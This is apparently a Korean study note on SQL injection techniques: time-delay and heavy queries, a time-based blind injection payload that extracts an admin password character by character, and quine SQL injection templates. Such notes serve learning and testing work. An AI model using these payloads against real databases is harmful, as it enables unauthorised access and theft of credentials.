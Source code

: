 방법으로는 DBMS에서 제공하는 함수를 이용하는 것과 시간이 많이 소요되는 연산을 수행하는 헤비 쿼리 (heavy query)를 사용하는 방법이 있다.

+ ```SELECT SLEEP(10);```

+ ```SELECT BENCHMARK(40000000,SHA1(1));```

+ ```SELECT (SELECT count(*) FROM information_schema.tables A, information_schema.tables B, information_schema.tables C) as heavy;```

<br><br>
<hr style="border: 2px solid;"><br>
<br><br>

## Time Based Blind SQL Injection
<hr style="border-top: 1px solid;"><br>

```
select id from table where id='' or id='admin' and ascii(substr(pw,1,1))=48 and sleep(5) #'
```

<br><br>
<hr style="border: 2px solid;"><br>
<br><br>

## Quine SQL Injection
<hr style="border-top: 1px solid;"><br>

싱글쿼트가 필요한 경우
: ```select replace(replace('[prefix] select replace(replace("$",char(34),char(39)),char(36),"$") [postfix]',char(34),char(39)),char(36),'[prefix] select replace(replace("$",char(34),char(39)),char(36),"$") [postfix]') [postfix];```

<br>

더블쿼트가 필요한 경우
: ```select replace(replace("[prefix] select replace(replace('$',char(39),char(34)),char(36),'$') [postfix]",char(39),char(34)),char(36),"[prefix] select replace(replace('$',char(39),char(34)),char(36),'$') [postfix]") [postfix];```

<br>

자세히 확인
: <a href="https://blog.p6.is/quine-sql-injection/" target="_blank">blog.p6.is/quine-sql-injection/</a>  

<br>

정리하면 다음과 같음.

```php
$a = [추가해도 됨] select replace(replace("$", char(34), char(39)), char(36), "$") as quine [추가해도 됨]

# -> 단, 더블쿼터가 싱글쿼터로 바뀐다는 점 유의해서 추가

[추가해도 됨] select replace(replace('$a', char(34), char(39)), char(36), '$a') as quine [추가해도 됨]
```
